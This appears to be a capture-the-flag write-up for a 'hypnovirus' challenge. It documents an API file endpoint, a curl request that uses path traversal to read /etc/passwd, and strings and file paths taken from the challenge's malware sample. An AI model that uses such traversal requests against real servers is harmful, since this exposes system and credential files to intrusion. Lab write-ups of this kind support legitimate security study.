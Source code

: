 ### API Endpoint Discovery
**Base URL:** `hypnovirus-srv2372f3a1d7cf.alfactf.ru`  
**Endpoint:** `/api/file`  
**Method:** GET  
**Parameters:** `?path=<file_path>`  
**Headers:** `accept: application/json`

### Protocol Testing
```bash
curl -s "https://hypnovirus-srv2372f3a1d7cf.alfactf.ru/api/file?path=/app/data/r3rCF8.gif" | head -c 100
```

**Response:**
```json
{"base64":"R0lGODlhOgJrATAfACH/C05FVFNDQVBFMi4wAwEAAAAh+QQFAwAfACH5BAUDAAAALAAAAAA6AmsBhP////7+/v///%
```

**✅ SUCCESS:** API is live and returns base64-encoded data!

### Vulnerability Discovery
Testing path traversal:
```bash
curl -s "https://hypnovirus-srv2372f3a1d7cf.alfactf.ru/api/file?path=../../../etc/passwd"
```

**💥 CRITICAL VULNERABILITY:** Path Traversal confirmed!

---

## 🎯 Advanced Analysis Results

### File Structure Mapping
From malware strings, we identified:

**Target Files:**
- `/app/data/r3rCF8.gif` - Hypnotic GIF payload
- `/app/data/fdj4Aw.txt` - Text-based instructions
- `/tmp/bienware.gif` - Local storage location

**System Commands:**
- `xdg-open` (Linux)
- `gio open` (GNOME)  
- `open` (macOS)

**Cross-platform compatibility confirmed!**

### Error Handling Analysis
The malware includes comprehensive error handling:
```
Failed to get important component
Failed to get important text
Connection reset by peer
Connection refused
Host is down
Host is unreachable
```

